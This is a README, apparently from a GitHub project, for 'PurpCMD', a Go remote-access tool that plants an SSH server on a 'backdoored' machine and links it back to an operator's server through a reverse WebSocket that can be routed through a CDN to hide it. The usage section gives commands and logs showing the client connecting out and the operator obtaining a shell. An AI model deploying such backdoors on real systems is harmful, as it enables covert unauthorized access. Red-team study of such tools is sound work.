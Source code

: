 # PurpCMD

For the current version the process mey be killed from client (backdoored) side due to error.

Purpcmd operates by initiating a simple SSH server on the client side. Leveraging SSH has many improved features to work with remote terminals, such as enhanced interaction quality, window resizing, full duplex communications, and more. This type of approach tends to work better than using reverse shell, that use system features, synchronized sockets and IO, it will have limited capabilities. Purpcmd employs a reverse WebSocket connection to seamlessly synchronize the SSH connection with the server.

The communication is secure and very malleable. It can be channeled through Content Delivery Network (CDN) to enhance obfuscation and other security measures.

![img1](img/img1.png)


### Help Menu

```
Server usage: purpcmd server [options] ...
	-k configures the path to the private key.
	By default an embed key pair is used to authenticate the
	connection.
	Use "-k /path/to/id_rsa".

Client usage: purpcmd client [options] ...
	-ua defines the User-Agent HTTP header to use
	during the request.

	-p must be used to set the path to a public key.
	By default an embed key pair is used to authenticate the
	connection. If the server is using a custom private key,
	this option must be used to specify the pair.
	Use "-p /path/to/id_rsa.pub".

	-ps allows passing the public key right from the command
	line.
	Use "-ps 'ssh-rsa AAAAB3NzaC'".
	
Global Options:
	-a is the address to listen on or connect to.
	Use "-a 127.0.0.1:8080".
		
	-uri configures the URI where to connect or to receive 
	the websocket connection.
	Use "-uri /assets".

```

### 1. Start the server

```
go run . server
2024/02/17 01:08:57 Listening on ws://0.0.0.0:8080/
```

### 2. Execute the client

```
go run . client -a 0.0.0.0:8080
2024/02/17 01:10:32 Connecting to ws://0.0.0.0:8080/
2024/02/17 01:10:32 Key O+XvBDAEHzyN9s78Iy6iegk3vWT7hzQZsErg/2Y+Ehg= found.
2024/02/17 01:10:32 Client got shell
```

### 3. Use the server new shell

```
╰─$ go run . server
2024/02/17 01:08:57 Listening on ws://0.0.0.0:8080/
2024/02/17 01:10:32 Proxy connected 0.0.0.0:8080
Setting up STDIN
Setting up STDOUT
Setting up STDERR
call shell
farinap@xyz:~/go/src/PurpleCommand$ ls
LICENSE  README.md  agent  go.mod  go.sum  img  main.go  server  utils
farinap@xyz:~/go/src/PurpleCommand$
```
